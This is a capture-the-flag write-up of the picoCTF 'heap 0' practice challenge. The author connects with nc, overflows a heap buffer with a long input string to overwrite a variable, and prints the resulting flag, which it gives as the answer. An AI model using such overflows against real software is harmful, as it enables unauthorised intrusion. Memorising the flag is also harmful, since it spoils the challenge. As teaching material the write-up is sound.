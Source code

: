 # <a href="https://play.picoctf.org/practice/challenge/438">heap 0</a>

![s12041411142024](https://a.okmd.dev/md/673599e970cdf.png)

I didn't even download to check the files, I straight away went to the instance and saw what was present in there:
```
nc tethys.picoctf.net 50823
```
```
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5f8cd116b2b0  ->   pico
+-------------+----------------+
[*]   0x5f8cd116b2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit
```

Pretty simlpe, I cycled throught the options to see what all was present when I give the inputs:
```
Enter your choice: 1
```
```
Heap State:
```
<br><br>
```
Enter your choice: 4
```
```
Looks like everything is still secure!

No flage for you :(
```
<br><br>
```
Enter your choice: 3
```
```


Take a look at my variable: safe_var = bico


```

Then what I decided to do was open and see what was something that I could write to the buffer:
```
Enter your choice: 2
```
What I ended up doing was just simply typing too many `9`'s and seeing if that would have an impact in the buffer:
```
Data for buffer: 9999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
```

Then I tried printing the flag again, and sure enough, the flag was present now:
```
Enter your choice: 4
```
```
YOU WIN
picoCTF{my_first_heap_overflow_1ad0e1a6}
```

and that was the answer to the challenge...

### Answer:
```
picoCTF{my_first_heap_overflow_1ad0e1a6}
```

### References and Links:
<i>NULL</i>